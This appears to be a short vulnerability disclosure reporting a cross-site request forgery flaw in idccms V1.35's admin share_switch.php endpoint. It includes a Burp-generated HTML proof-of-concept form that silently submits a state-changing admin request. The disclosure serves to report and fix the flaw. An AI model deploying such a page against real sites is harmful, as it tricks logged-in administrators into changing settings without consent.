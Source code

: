 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/share_switch.php?mudi=switch&dataType=&fieldName=state&fieldName2=state&tabName=vpsApi&dataID=2

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/share_switch.php?mudi=switch&dataType=&fieldName=state&fieldName2=state&tabName=vpsApi&dataID=2" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
